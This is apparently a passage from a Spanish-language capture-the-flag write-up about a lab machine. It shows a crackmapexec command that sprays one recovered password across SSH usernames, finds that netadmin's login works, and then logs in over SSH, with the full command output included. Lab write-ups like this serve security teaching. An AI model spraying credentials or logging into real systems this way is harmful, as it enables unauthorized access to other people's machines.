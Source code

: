 ```bash
❯ crackmapexec ssh 10.10.11.247 -u users -p 'VeRyUniUqWiFIPasswrd1!' --continue-on-success
SSH         10.10.11.247    22     10.10.11.247     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
SSH         10.10.11.247    22     10.10.11.247     [-] root:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] daemon:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] ftp:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] network:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] nobody:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] ntp:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] dnsmasq:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] logd:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] ubus:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [+] netadmin:VeRyUniUqWiFIPasswrd1! 
```

Ahora nos podemos conectar como ese usuario por **SSH**

```bash
❯ ssh netadmin@10.10.11.247
The authenticity of host '10.10.11.247 (10.10.11.247)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.247' (ECDSA) to the list of known hosts.
netadmin@10.10.11.247's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 18 Sep 2023 01:30:22 PM UTC

  System load:            0.11
  Usage of /:             75.4% of 4.76GB
  Memory usage:           13%
  Swap usage:             0%
  Processes:              229
  Users logged in:        1
  IPv4 address for eth0:  10.10.11.247
  IPv6 address for eth0:  dead:beef::250:56ff:feb9:43f0
  IPv4 address for wlan0: 192.168.1.1
  IPv4 address for wlan1: 192.168.1.23


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Sep 18 13:19:39 2023 from 10.10.16.17
```